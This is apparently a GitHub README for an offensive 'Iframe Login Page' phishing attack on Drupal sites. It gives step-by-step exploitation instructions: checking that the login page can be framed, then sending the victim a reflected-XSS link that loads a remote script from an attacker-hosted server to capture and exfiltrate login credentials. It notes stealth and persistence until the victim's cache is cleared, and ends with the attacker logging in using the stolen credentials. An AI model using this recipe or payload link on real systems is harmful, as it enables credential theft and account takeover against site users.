

# [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.17

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.17/user/login";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginDrupal.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.15/phishLoginDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.15` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Drupal site using obtained credentials

    http://192.168.5.17/user/login

## Screenshots

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter


